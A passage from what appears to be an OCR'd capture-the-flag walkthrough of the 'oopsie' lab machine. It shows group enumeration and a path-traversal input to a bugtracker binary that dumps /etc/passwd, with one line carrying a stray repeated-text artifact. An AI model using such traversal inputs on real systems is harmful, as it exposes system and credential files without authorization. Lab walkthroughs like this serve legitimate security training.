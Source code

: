 ```
id
```
We observe that user robert is part of the group bugtracker. Let's try to see if there is any binary withinthat group:

```
find / -group bugtracker 2>/dev/null 
```

```
robert@oopsie:/tmp$ /usr/bin/bugtracker
/usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1234
1234
---------------

cat: /root/reports/1234: No such file or directory  ========================> cat:cat:cat:cat:cat:cat:cat:cat:cat:cat:cat:

robert@oopsie:/tmp$ /usr/bin/bugtracker
/usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ../../../../../etc/passwd
../../../../../etc/passwd
---------------

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
```